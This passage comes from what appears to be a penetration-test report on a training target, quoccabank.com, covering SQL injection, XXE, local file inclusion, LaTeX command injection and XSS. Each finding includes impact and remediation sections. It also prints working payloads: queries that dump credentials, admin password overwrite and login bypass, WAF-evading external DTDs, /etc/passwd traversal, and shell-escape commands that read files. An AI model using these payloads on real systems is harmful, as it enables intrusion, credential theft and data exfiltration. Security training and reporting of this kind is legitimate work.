From this, we can inject our SQLi payloads into a TXT record and reset the password every time to perform the `UPDATE` SQL query. When injecting an invalid payload such as `' -- )`, it gives us an error message shown below. It appears that the SQL statement contains both string concatenation and a parameterised query to execute the SQL operation.
 

Further injecting other payloads, we can elicit more information from the error message such that it reveals the rest of the SQL query used.



To extract sensitive information, we can perform a `SUBQUERY` to give us the option to `SELECT` different data. For instance, if our aim is to determine what tables exist in the database, we can include the payload below in the TXT record.

```sql
',  last_reset=CONCAT(?, (SELECT GROUP_CONCAT(table_name SEPARATOR ' ') from information_schema.tables)), reset_actor=? where email=?  -- )
```

Using the `CONCAT()` function, we can concatenate the parametrised query `?` and the output of our subquery. This is needed as the utilisation of the parametrised query seems to be required for the backend or otherwise it will cause a syntax issue. Using the `GROUP_CONCAT()` function also concatenates our output from the `SELECT` statement into a single string since the query expects that to be the case.



Using this query reveals the table names, however, it appears that there is a character limit for the concatenation. As such, we can modify the query shown below to display the output in reverse order which reveals more information on the existing tables.

```sql
',  last_reset=CONCAT(?, (SELECT GROUP_CONCAT(table_name ORDER BY table_name DESC SEPARATOR ' ') from information_schema.tables)), reset_actor=? where email=?  -- )
```


It was worth noting that there exists a `users` table that we could extract useful information from. Now, having a table name, we can query all column names of the `users` table using the payload below.

```sql
',  last_reset=CONCAT(?, (SELECT GROUP_CONCAT(column_name) from information_schema.columns where table_name = 'users')), reset_actor=? where email=?  -- )
```



Thus, the notable column names include `email` and `password` in `users`. From here, we can exfiltrate data on the user's email and password by including the payload in the TXT DNS record.

```sql
',  last_reset=CONCAT(?, (SELECT GROUP_CONCAT(email, password SEPARATOR ' ') from (SELECT * FROM users) AS userscopy)), reset_actor=? where email=?  -- )
```

In this SQL injection, we used another subquery to copy over the values in the `users` table to a new table since MySQL doesn't allow you to reference the table that you are updating.

If successful, it would display all users and their corresponding passwords. Notable that there is an `admin@quoccabank.com` account with the password `LMAO_YOU_THERES_A_FLAG`. From here, we have full access to login into any user account.





**Impact**

Attackers can exfiltrate confidential data from the database through SQL injection and perform malicious actions. Specifically, user's emails and passwords can be obtained and leak from `signup.quoccabank.com`. Not to mention that passwords are stored in plain text meaning that attackers can attempt logging in through other websites with a user's credentials since in some cases, users often use the same password for other websites. SQL injection can also be used to modify contents, delete information or extract data and show it on screen.

**Remediation**

Firstly, ensure that input for the SQL query in the backend is sanitising inputs and construct SQL queries using parameters rather than string concatenation. This allows the SQL engine to distinctively identify between code and data. Furthermore, it is recommended to ensure error messages are not displayed to the user. This makes it difficult for an attacker to formulate what the SQL query could be which minimises an SQL injection. Another remediation is to encode any extremely sensitive information in the database, such as passwords.

### CRITICAL - SQL Injection to Change Passwords

**Asset Domain:** signin.quoccabank.com

**Severity Classification:** CRITICAL

**Vulnerability Details**

As seen earlier, we have discussed how `signin.quoccabank.com` is vulnerable to an SQL injection by inserting the payload to the TXT record to exfiltrate sensitive information within the database. However, there exists another SQL injection in which we can overwrite another user password and gain access that way through updating the database directly.

**Proof of Concept / Steps to Reproduce**

Using the same methods mentioned earlier in injecting the payload, if we instead inject the payload below in the TXT record, we can use the current UPDATE query on the backend to simply reset another user's password to the temporary password generated.

```sql
', last_reset=?, reset_actor=? where email=? or email='admin@quoccabank.com' -- )
```

We now have the password to access another user's account by using the temporary password for our current user as we have effectively overwritten that user's details with our own.

**Impact**

As mentioned earlier, SQL injections can be used to modify contents, delete information or extract data. In this case, we are effectively overwriting another user's data and utilising the information to gain access to an account. This is particularly dangerous as we now have full access to that account which we may or may not contain sensitive data for that user.

**Remediation**

Remediations for SQL injections have been discussed in `SQL Injection through DNS Record`

### CRITICAL - SQL Injection in Login Parameters

**Asset Domain:** bigapp.quoccabank.com

**Severity Classification:** CRITICAL

**Vulnerability Details**

The login parameters (e.g. `susername`) are vulnerable to SQL injection, allowing an attacker to authenticate without credentials to the `bigapp` web service with any privileges. 

**Proof of Concept / Steps to Reproduce**

We can escape the context of the username string by injecting a single quote into the `susername` POST parameter. We can now modify the logic of the selection statement. For instance, to authenticate as the administrative user, we could constrain the email parameter to `admin@quoccabank.com` and skip the password validation by ending the query and commenting further logic out.
`susername=admin@quoccabank.com'%3b--+&spassword=password&login-submit=Secure+Log+In++`


**Remediation**

Make use of the prepared statements binding provided in the appropriate backend framework. Refer to `https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html` for further guidance.

### CRITICAL - SQL Injection in REST API

**Asset Domain:** bigapp.quoccabank.com

**Severity Classification:** CRITICAL

**Vulnerability Details**

The `q` parameter in the REST API is vulnerable to SQL Injection, allowing execution of arbitrary SQL statements. An attacker may exfiltrate records in the local database or escalate to RCE depending on the environment. 

**Proof of Concept / Steps to Reproduce**

Injecting a single quote into the `q` parameter causes the backend to spit out an error message, which helpfully prints out some of the queries that we are injecting into. 
` '%' OR pname LIKE '%'%') AND bu IS NOT NULL) ORDER BY category`. 
Parsing this syntax allows us to construct our payload:

* We need a quote to escape the string context
* Similarly, we need two right brackets
  We test our payload by manually closing out the query:
  `https://bigapp.quoccabank.com/api/v1/bproducts?q=A%27));%20--%20%20`
  Since this does not throw any errors (and returns nothing, as expected), we are free to proceed. 
  

First, we enumerate the number of columns that are pulled by the query. We accomplish this with a union select, increasing the number of columns until we no longer get an error.
`https://bigapp.quoccabank.com/api/v1/bproducts?q=A%27))%20union%20all%20select%201,2,3,4,5,6;%20--%20garbage`


Since all 6 columns are visible in the response, we are free to pick any columns as our output for in band exfiltration. First, we dump `information_schema.tables`:
`https://bigapp.quoccabank.com/api/v1/bproducts?q=A%27))%20union%20all%20select%201,table_name,3,4,5,6%20from%20information_schema.tables;%20--%20garbage`


We take special note of the `bproducts` and `users` table - the only non-default tables. 

From here, we can start dumping sensitive information, e.g.
`https://bigapp.quoccabank.com/api/v1/bproducts?q=A%27))%20union%20all%20select%201,column_name,3,4,5,6%20from%20information_schema.columns%20where%20table_name=%27users%27;%20--%20`
will dump the structure of the `users` table, which we can then loot:

`https://bigapp.quoccabank.com/api/v1/bproducts?q=A%27))%20union%20all%20select%20password,email,3,4,5,6%20from%20users;%20--%20garbage`


**Remediation**

Make use of the prepared statements binding provided in the appropriate backend framework. Refer to `https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html` for further guidance.

## Local File Inclusion

### CRITICAL - Partial local file inclusion and stored XSS leading to possible remote code execution

**Asset Domain:** gcc.quoccabank.com

**Severity Classification:** HIGH

**Vulnerability Details**

The 'https://gcc.quoccabank.com/' endpoint compiles any valid C source code on its servers then returns it to the user to download. However, it is noted that regardless of valid or invalid code, it will be logged and kept onto the server. Upon submitting a file with compilation errors, the errors are capable of reflecting arbitrary javascript code. Furthermore, partial local file inclusion can be performed by using `#include "/absolutefilepath"`.

**Steps to Reproduce**

Visit "https://gcc.quoccabank.com/" and upload any filename that ends with a '.c' extension

- this file can have any arbitrary code and the server will try to compile it

Uploading this payload:

`` 

The website reflects the image as a 'warning' and it shows that the website is vulnerable to reflected XSS.


Furthermore, the `/tmp/phpObmcpG.c` path shown above is the file in which the error logs are saved for this particular upload.

If we changed the payload to this `#include "/tmp/phpObmcpG.c"` it will also reflect the image, highlighting the stored nature of this XSS vulnerability, thereby escalating it from a reflected XSS vulnerability to a Stored XSS vulnerability.


Furthermore, if the payload is changed once again to `#include "/etc/passwd"`


The reflected error message outputs the first line in the file in absolute path '/etc/passwd'.

Utilizing this partial local file inclusion to examine the logic of the endpoint 'https://gcc.quoccabank.com/upload.php' and using the payload `#include "/quocca-gcc/upload.php"` produces this output:


The output highlights two things, there is a php function `system($cmd)` being called, that executes whatever is in the command and the command is a gcc command along with a user profile `$filename`. Whilst the filename parameter itself is escaped, there could possibly be further attack methods to escalate this to a remote code execution vulnerability such as **Argument injection vulnerabilities** as shown in this GitHub repo: [phpEscapeShellArgBypasses](https://github.com/kacperszurek/exploits/blob/master/GitList/exploit-bypass-php-escapeshellarg-escapeshellcmd.md#known-bypassesexploits).

**Further Attack Scenarios and Proof of Concepts**

Another attack vector is that since the XSS is stored in system logs if the admin is ever to examine the logs, arbitrary javascript code will be able to run on the machine of a system administrator.

This payload example highlights the ability to add arbitrary javascript (by appending an iframe to HTML of the browser) to the administrator's browser upon examining the file (if the admin also is taken to this screen).

```html

```


### CRITCAL - XML external entities vulnerability leading to local file inclusion

**Asset Domain:** v[1234].feedifier.quoccabank.com

**Severity Classification:** CRITICAL

**Vulnerability Details**

XXE vulnerability in the RSS aggregator functionality on endpoints:

- 'https://v1.feedifier.quoccabank.com' 
- 'https://v2.feedifier.quoccabank.com'
- 'https://v3.feedifier.quoccabank.com'

leads to there being a local file inclusion vulnerability on all three of these endpoints.

**Steps to Reproduce**

Host your own server to host malicious RSS files.

- **important note**
  - host the pages with a .html extension

Navigate to either v1, v2, or v3 versions for example "https://v1.feedifier.quoccabank.com"

Paste in the address to your external website which contains the malicious XML document.


The output should look something like this:


**Proof of Concept - v1.feedifier.quoccabank.com**

The XSS payload is shown below. In the XML file, we are defining an entity called `xxe` in which we can use the `SYSTEM` keyword to read files from a URI. In this case, we can possibly extract and display files from the system such as `/etc/passwd`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title [ <!ELEMENT title ANY >
<!ENTITY xxe SYSTEM "file://<file_path>" >]>
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
<channel>
    <title>The Blog</title>
    <link>http://example.com/</link>
    <description>A blog about things</description>
    <lastBuildDate>Mon, 03 Feb 2014 00:00:00 -0000</lastBuildDate>
    <item>
        <title>&xxe;</title>
        <link>https://google.com</link>
        <description>asdasd</description>
        <author>author@example.com</author>
        <pubDate>Mon, 03 Feb 2014 00:00:00 -0000</pubDate>
    </item>
</channel>
</rss>
```

**Proof of Concept - v2.feedifier.quoccabank.com**

The payload for v2.feedifier.quoccabank.com and its DTD is shown below. Here, we are loading an entity declared outside the scope of the XML file. This allows an attacker to bypass any WAF. 

*XSS File*

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title[<!ENTITY % load SYSTEM "<insert website here>/<external_dtd_path>.html"> %load;%bundle;] PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd" >
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
<channel>
    <title>The Blog</title>
    <link>http://example.com/</link>
    <description>A blog about things</description>
    <lastBuildDate>Mon, 03 Feb 2014 00:00:00 -0000</lastBuildDate>
    <item>
        <title>&atak;</title>
        <link>https://google.com</link>
        <description>asdasd</description>
        <author>author@example.com</author>
        <pubDate>Mon, 03 Feb 2014 00:00:00 -0000</pubDate>
    </item>
</channel>
</rss>
```

*External DTD file*

```xml-dtd
<!ENTITY % beg "<![CDATA[">
<!ENTITY % payload SYSTEM "file://<insert file path>">
<!ENTITY % end "]]>">
<!ENTITY atak "%beg;%payload;%end;">
```

**Proof of Concept - v3.feedifier.quoccabank.com**

v3's exploit is identical to v2 with some changes in the DTD file to bypass the additional WAFs check. In the DTD file, we are breaking up the strings that are banned through the firewall.

```xml-dtd
<!ENTITY % beg "<![CDATA[">
<!ENTITY % end "]]>">

<!ENTITY % p1 "file">
<!ENTITY % p2 ":///fl">
<!ENTITY % p3 "ag_17cc6c717afdef0b7581ec95c47313d3">

<!ENTITY % combined "<!ENTITY payload SYSTEM '%p1;%p2;%p3;'>">
%combined;

<!ENTITY % bundle "<!ENTITY atak '%beg;%d;%end;'>">
```

**Impacts and Attack Scenarios**

Since the attacker can gain local file inclusion in the server, thereby obtaining a foothold onto the server, they can freely roam and obtain methods of entering the server by means such as viewing SSH keys, Flask secret keys, other server secrets as well as open up other attack vectors such as server-side request forgery ultimately leading to Remote Code Execution on the server. Therefore this vulnerability is categorized as a critical vulnerability since local file inclusion vulnerabilities are easily escalated into RCEs.

**Mitigations**

Mitigations to XXE vulnerabilities include disabling external entities features such as the DTD and XML external entity features. Furthermore, XML processors and other dependencies must be regularly updated to protect the server against old patched vulnerabilities.

### CRITICAL - Local file inclusion in URL path

**Asset Domain:** bfd.quoccabank.com

**Severity Classification:** CRITICAL

**Vulnerability Details**

Local file inclusion on the root endpoint 'https://bfd.quoccabank.com/' presents as a relative path injected into the GET requests. This is because the web server treats file path inputs as a relative path to the working directory of the webserver.

**Steps to Reproduce**

Visit the site "https://bfd.quoccabank.com/" with Burp intercept turned on.

Send the request to Repeater and modify the request to this:


Replacing the original `GET /index.html HTTP/1.1` with our custom payload  `GET /../etc/passwd HTTP/1.1`.

The response will be this:


**Impacts and Attack Scenarios**

Impacts of local file inclusion include the ability to view secret keys such as SSH keys, server config files such as flask secret keys leading to the attacker gaining the ability to forge their authentication tokens, which may lead to vertical privilege escalation in the web app and may ultimately lead to remote code execution.

**Possible Mitigations**

Whilst security through obscurity is not recommended here, do not outline the features of the web app on an open-sourced repository for the world to see. 

As this comment on 'https://github.com/ajyoon/systemf/blob/master/examples/http/server.bf' outlines that there is a local file inclusion vulnerability existing in the webserver.


Other mitigations may be to use a non-vulnerable web server, as well as sanitizing and checking whether or not the routes provided are part of a white-listed list of routes.

## Command Injection

### CRITICAL - Command Injection via LaTeX

**Asset Domain:** letters.quoccabank.com

**Severity Classification:** CRITICAL

**Vulnerability Details**

Command injections are not solely restricted by inputting commands to a system shell. Command injection payloads can also be executed through other applications such as LaTeX. This is with the case for `letters.quoccabank.com` as it appears that the input passed is compiled to a PDF document using LaTeX. This is extremely dangerous as users can inject malicious payload inside certain LaTeX constructs such as using `/input{}` into the input field which can be interpreted by the LaTeX compiler as an execution of a command to the system. This can be problematic where hackers can inject a payload to exfiltrate data from the system where the web application is hosted on or potentially perform malicious actions such as spawning up a reverse shell if the system is vulnerable enough to gain access.

**Proof of Concept / Steps to Reproduce**

It appears that `letters.quoccabank.com` reveals the source code of the way in serving HTML files from the backend when clicking one of its navigation menus under `Secret Sauce`. As a consequence, this reveals too much information such as the structure in serving files to an attacker. 


Inspecting the source code reveals potential URL routes that the web application may serve HTML files for. For instance, inspecting this snippet of code below reveals that there could potentially exist a file called `flag` in the root directory.



Such information present can be abused to identify which file paths could be valid. As such, injecting a payload that performs remote code execution into the LaTeX input that opens `/flag`, for example, `\input{/flag}`, could potentially reveal sensitive information that the admin may not want to be seen by the user.




Further inspecting the source code for the web application, we can extract sensitive data of certain file names such as `/key`.



In this manner, users can extract sensitive information meant only for engineers of the application, in this case, the key `imagineUsingW0rd` verifies whether the input for the debug option is signed correctly with the key.


Thinking from an attacker's point of view, we know for certain that perhaps we can inject a command injection within the input that allows us to execute system commands. It appears that when using the `-shell-escape` flag when generating the document, this allows us to run external commands within LaTeX, meaning that we could execute bash commands as well and are not limited by the in-built security features due to including this flag into the compilation. Furthermore, having access to the key means that we can correctly sign our input to the debug option so that the backend of the application can correctly insert it as a flag judging based on the source code found.

```python
# Python program that prints the correct signed key of the input
s = Signer("imagineUsingW0rd")
# prints -shell-escape.ZYO1d05uy-FCZuQ_fSzoDfjkipM
print(s.sign("-shell-escape").decode('utf-8'))
```

Having the ability to command inject and be able to run shell commands within LaTeX could enable an attacker to exfiltrate data from the system. For example, they can list the contents of the directories and see if any sensitive information is contained as shown below. To note, the output is encoded in base64 to avoid any issues with LaTeX syntax.

```python
\input{|"echo ""; ls / | base64"}
```

Decoding the output of such payload, one can begin scouting sensitive files in the system where the web application is hosted up.


From here, once we know for certain where sensitive files are located, in this case, it appears that `/admin_539f98bf-9a52-4bc0-bf34-1ffaba10997c.pdf` may be of relevance, we can using other command injection payloads to potentially open up contents of a file and exfiltrate data from it if possible. In this case, we can inject this payload shown below in the input which gives us the base64 contents of the file. From there, decoding tools such as CyberChef can aid us in decoding the base64 encoding and extract the pdf to reveal its contents.

```latex
\input{|"echo ""; cat /admin_539f98bf-9a52-4bc0-bf34-1ffaba10997c.pdf | base64"}
```


**Impact**

This vulnerability allows users to perform command injection through LaTeX, either reading file content or performing system shell commands. The impact of such vulnerability would allow an attacker to exfiltrate sensitive data on the system where the web application is hosted on. For example, this could lead to instances where an attacker could extract contents of sensitive admin files or server configuration files such as the example with the `/key` file whereby its contents could allow attackers to send their own debug option to the backend for malicious purposes. Furthermore, by performing system shell commands with the valid signed debug option input, it would enable an attacker to list the contents of directories or find certain path locations of files.

**Remediation**

For starters, it is not recommended to reveal the source code of the backend or allow a debug option in the first place. As it puts so much information out there for an attacker to do some recon and find vulnerabilities of the web application that way. This can be seen by revealing potential file names that may contain sensitive data such as `/flag` or `/key`. Furthermore, to prevent any command injection, sanitize the input or blacklist words such that system shell commands are prohibited. Also, it is highly recommended to ensure that the debug option is checked against flags that allow system shell commands to be executed in LaTeX, such as `-shell-escape`. It is strongly recommended to not show or accept the debug option input in the release of the web application.

# Client-Side Vulnerabilities

### HIGH - XSS in files.quoccabank.com

**Asset Domain:** files.quoccabank.com

**Severity Classification:** HIGH

**Vulnerability Details**

Cross Site Scripting (XSS) is a type of attack where malicious scripts can be injected into otherwise benign and trusted websites. As suggested in the previous vulnerability, it is unclear whether file sharing is an intended feature due to the IDOR vulnerability. However, if it was, files shared could allow for arbitrary client-side JavaScript code execution.

**Proof of Concept / Steps to Reproduce**

Creating a file with the content of `<script>alert(1)</script>`, it can be seen that navigating to and accessing the file will run the script on the client-side. As demonstrated in the image below, the popup alert of 1 appeared when loading the page. This proof of concept demonstrates that file content is vulnerable to XSS, and that arbitrary JavaScript code can be executed on the client-side.


**Impact**

If file sharing is an intended feature, a malicious user can execute arbitrary client-side JavaScript code on any recipient's browser if they access the page. The vulnerability means that an attacker can steal another user's authentication session token and login as if they were the compromised user, providing access to all their files and permissions. Even if file sharing isn't a feature, staff or admins who have access to any user files may be vulnerable to such an attack when asked to check out the malicious file as well.

**Remediation**

The XSS vulnerability can be remediated by ensuring that file content is saved and rendered as raw text instead of HTML. This includes sanitising user input, such as through HTML encoding untrusted data such as file content. This ensures that user input is not interpreted as HTML and prevents arbitrary JavaScript execution.


